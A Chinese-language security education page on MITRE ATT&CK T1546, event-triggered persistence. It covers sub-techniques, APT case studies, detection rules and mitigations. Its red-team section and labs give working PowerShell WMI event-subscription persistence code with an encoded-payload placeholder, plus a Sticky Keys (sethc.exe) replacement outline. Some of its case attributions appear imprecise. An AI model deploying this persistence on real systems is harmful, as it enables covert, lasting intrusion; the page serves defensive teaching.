

# 事件触发执行 (T1546)

## 一句话通俗理解

> 就像在家里装了一个"陷阱"——平时看起来什么都没有，但当你做某个特定动作（比如打开某个文件、屏幕保护启动、或者按下某个键）时，恶意代码就会自动执行。

## 难度等级

⭐⭐⭐ 较高（需要管理员权限或特定系统访问）

## 技术描述

攻击者可能利用系统机制来建立基于特定事件触发的持久性。与依赖在启动或用户登录时运行的程序不同，事件触发的持久性使用操作系统特性来监视并对特定条件做出反应。这些条件可能包括文件关联更改、屏幕保护程序激活、WMI事件订阅、shell配置更改、应用程序初始化或系统通知。

该技术特别强大，因为恶意代码不会持续运行。它在磁盘上保持休眠状态直到触发事件发生，减少了被运行时安全工具检测的机会。许多事件触发机制是操作系统内置的，被认为是合法行为，使得难以区分恶意使用和正常管理活动。

## 子技术列表

| 子技术ID | 名称 | 说明 | 难度 |
|----------|------|------|------|
| T1546.001 | 更改默认文件关联 | 修改文件类型打开方式 | ⭐⭐ 中等 |
| T1546.002 | 屏幕保护程序 | 替换屏幕保护程序为恶意程序 | ⭐ 简单 |
| T1546.003 | WMI事件订阅 | 使用WMI创建事件触发器 | ⭐⭐⭐ 较高 |
| T1546.004 | Unix Shell配置修改 | 修改.bashrc等shell配置文件 | ⭐⭐ 中等 |
| T1546.005 | Trap | 使用Unix trap命令捕获信号 | ⭐⭐ 中等 |
| T1546.006 | LC_LOAD_DYLIB添加 | macOS动态库注入 | ⭐⭐⭐ 较高 |
| T1546.007 | Netsh辅助DLL | 注册netsh辅助DLL | ⭐⭐ 中等 |
| T1546.008 | 辅助功能 | 替换辅助功能二进制文件 | ⭐⭐ 中等 |
| T1546.009 | AppInit DLLs | 注册AppInit DLL | ⭐⭐ 中等 |
| T1546.010 | AppCert DLLs | 注册AppCert DLL | ⭐⭐⭐ 较高 |
| T1546.011 | 应用程序兼容性垫片 | 使用sdbinst安装垫片 | ⭐⭐⭐ 较高 |
| T1546.012 | 映像文件执行选项 | 使用IFEO调试器劫持 | ⭐⭐ 中等 |
| T1546.013 | PowerShell配置文件 | 修改PowerShell启动脚本 | ⭐ 简单 |
| T1546.014 | 电子邮件 | 利用邮件规则触发代码 | ⭐⭐ 中等 |
| T1546.015 | 更新编排器 | 滥用Windows更新服务 | ⭐⭐⭐ 较高 |

## 攻击流程



```
1. 获取系统访问权限
    ↓
2. 选择触发机制：
   - WMI事件订阅（文件无痕）
   - 文件关联修改
   - 辅助功能替换
   - PowerShell配置文件
    ↓
3. 配置触发条件和执行动作
    ↓
4. 等待触发事件发生
    ↓
5. 恶意代码自动执行
```

## 真实案例

### 案例1：APT29 POSHSPY无文件WMI持久化
- **时间**: 2017-2018年
- **目标**: 美国智库、国防承包商和政府机构
- **手法**: APT29开发了POSHSPY后门，完全利用WMI事件订阅（T1546.003）实现文件级持久化。整个后门不写入任何文件到磁盘，代码完全存储在WMI仓库中，传统文件扫描无法检测。
- **链接**: https://cloud.google.com/blog/topics/threat-intelligence/dissecting-one-ofap

### 案例2：APT29利用辅助功能
- **时间**: 2020-2021年
- **目标**: 全球政府机构和关键基础设施
- **手法**: APT29在SolarWinds攻击中替换了Windows辅助功能二进制文件（T1546.008），特别是sethc.exe（Sticky Keys）。通过将sethc.exe替换为cmd.exe，攻击者可以在远程桌面登录屏幕上按下Shift键5次来获得SYSTEM权限的命令行访问。
- **链接**: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-057a

### 案例3：Emotet修改默认文件关联
- **时间**: 2019-2020年
- **目标**: 全球企业和政府机构
- **手法**: Emotet银行木马通过修改默认文件关联（T1546.001）来保持持久性。该恶意软件修改了`.html`和`.htm`文件的默认处理程序，将文件打开操作重定向到其恶意payload。
- **链接**: https://attack.mitre.org/software/S0367/

### 案例4：Volt Typhoon利用WMI持久化
- **时间**: 2023-2024年
- **目标**: 美国关键基础设施
- **手法**: Volt Typhoon使用WMI事件订阅来维持持久性，利用这种完全无文件的技术来逃避安全检测。
- **链接**: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

**攻击优势**：
- 许多技术是无文件的，难以被检测
- 恶意代码只在特定事件触发时执行
- 利用操作系统合法机制，难以区分恶意和正常行为

**常用技术**：
```powershell
# WMI事件订阅
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "MaliciousFilter"
    EventNameSpace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}

$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "MaliciousConsumer"
    CommandLineTemplate = "powershell.exe -enc <base64payload>"
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter
    Consumer = $consumer
}
```

**实战技巧**：
- 优先使用WMI事件订阅（完全无文件）
- 使用辅助功能替换（可在登录屏幕执行）
- 配合T1547（自动启动）使用增加冗余

## 蓝队视角

**防御重点**：
- 监控WMI活动和事件订阅
- 审计辅助功能二进制文件的完整性
- 检查PowerShell配置文件

**常见盲点**：
- 只关注文件持久化，忽略无文件技术
- 未监控WMI事件订阅的创建
- 缺乏对辅助功能二进制文件的完整性检查

## 检测建议

### 网络层检测

**检测方法：** 监控由事件触发执行的进程产生的异常网络连接，检测WMI事件消费者、PowerShell回传等。

**具体规则/命令示例：**
```bash
# Snort规则检测WMI事件触发的PowerShell外连
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"WMI-Triggered PowerShell Beacon"; flow:to_server,established; content:"WindowsPowerShell"; http_user_agent; sid:1000215; rev:1;)
```

### 主机层检测

**检测方法：** 监控WMI事件订阅、文件关联修改、辅助功能二进制文件篡改和IFEO等事件触发机制。

**Windows事件ID：**
- 事件ID 5861：WMI永久事件订阅创建
- Sysmon事件ID 1：辅助功能二进制文件（sethc.exe、utilman.exe等）的进程创建
- Sysmon事件ID 12/13：IFEO、AppInit_DLLs注册表修改
- 事件ID 4688：应用程序兼容性垫片（sdbinst.exe）安装

**Linux日志：**
- 日志文件：`/var/log/auth.log` 或 `~/.bash_history`
- 关键字段：shell配置文件（.bashrc、.profile、.zshrc）的修改
- 关键字段：trap命令设置

**具体命令示例：**
```bash
# 列出WMI事件过滤器和消费者
Get-WmiObject -Namespace "root\subscription" -Class __EventFilter
Get-WmiObject -Namespace "root\subscription" -Class __EventConsumer
Get-WmiObject -Namespace "root\subscription" -Class __FilterToConsumerBinding

# 检查辅助功能二进制文件
certutil -hashfile C:\Windows\System32\sethc.exe SHA256
certutil -hashfile C:\Windows\System32\utilman.exe SHA256

# 检查PowerShell配置文件
Test-Path $PROFILE
Get-Content $PROFILE
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: WMI永久事件订阅检测
status: experimental
description: 检测创建WMI永久事件订阅的行为
logsource:
    category: wmi_event
    product: windows
detection:
    selection:
        EventID: 5861
        Message|contains: '__EventFilter'
    condition: selection
level: high
tags:
    - attack.t1546.003
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 事件触发机制禁用与权限控制

**具体实施步骤：**
1. 在Windows 10+上禁用AppInit_DLLs功能（设置`LoadAppInit_DLLs`为0）
2. 使用SBCP确保辅助功能二进制文件的完整性，配置Windows Defender System Guard运行时监测
3. 限制WMI权限，只允许管理员创建永久事件订阅，配置WMI命名空间安全设置
4. 通过组策略配置PowerShell执行策略为`Restricted`或`AllSigned`

### 优先级2：重要措施

**措施名称：** 事件触发器监控与审计

**具体实施步骤：**
1. 启用WMI审计日志（事件ID 5861），监控永久事件过滤器和消费者的创建
2. 使用Sysinternals Autoruns定期检查所有事件触发位置（IFEO、AppInit_DLLs、AppCertDLLs、启动文件夹等）
3. 配置Sysmon监控`sethc.exe`、`utilman.exe`等辅助功能二进制文件的进程创建事件
4. 对关键系统实施文件完整性监控（FIM），检测PowerShell配置文件、shell配置文件（.bashrc等）和全局模板文件的变更

**配置示例：**
```bash
# 禁用AppInit_DLLs
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 0 /f

# 配置WMI命名空间安全（限制永久事件订阅）
# 使用WMI Control MMC管理单元设置

# 监控PowerShell配置文件变更
auditctl -w $HOME/.config/powershell/Microsoft.PowerShell_profile.ps1 -p wa -k ps_profile
```

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：WMI事件订阅
```powershell
# 创建WMI事件订阅（需要管理员权限）
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "TestFilter"
    EventNameSpace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}

$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "TestConsumer"
    CommandLineTemplate = "cmd.exe /c echo triggered >> C:\temp\wmi_test.txt"
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter
    Consumer = $consumer
}

# 清理
Get-WmiObject -Namespace "root\subscription" -Class __EventFilter | Where-Object {$_.Name -eq "TestFilter"} | Remove-WmiObject
Get-WmiObject -Namespace "root\subscription" -Class CommandLineEventConsumer | Where-Object {$_.Name -eq "TestConsumer"} | Remove-WmiObject
```

### 实验2：辅助功能替换
```cmd
REM 备份原始文件
copy C:\Windows\System32\sethc.exe C:\temp\sethc_backup.exe

REM 替换为cmd.exe（需要TrustedInstaller权限）
REM 实际攻击需要先获取所有权并修改权限

REM 清理 - 恢复原始文件
```

### 实验3：使用Atomic Red Team测试
```powershell
# 执行T1546测试
Invoke-AtomicTest T1546
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| WMI | Windows Management Instrumentation | Windows管理规范，一套用于管理系统信息的接口，就像系统的"神经中枢" |
| 文件关联 | File Association | 文件类型与打开该类型文件的程序之间的关联，如.txt文件用记事本打开 |
| 辅助功能 | Accessibility Features | 为残障人士提供的系统功能，如粘滞键（Sticky Keys）、放大镜 |
| AppInit DLLs | AppInit DLLs | 在所有加载user32.dll的进程中自动加载的DLL，一种全局DLL注入机制 |
| IFEO | Image File Execution Options | 映像文件执行选项，Windows中用于调试程序的注册表配置 |
| PowerShell配置文件 | PowerShell Profile | PowerShell启动时自动执行的脚本，就像shell的.bashrc |

## 参考资料

- [MITRE ATT&CK T1546 事件触发执行](https://attack.mitre.org/techniques/T1546/)
- [APT29 POSHSPY分析 - Google Cloud](https://cloud.google.com/blog/topics/threat-intelligence/dissecting-one-ofap)
- [CISA APT29 SolarWinds Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-057a)
- [Volt Typhoon Advisory - CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)
- [Atomic Red Team - T1546](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1546)
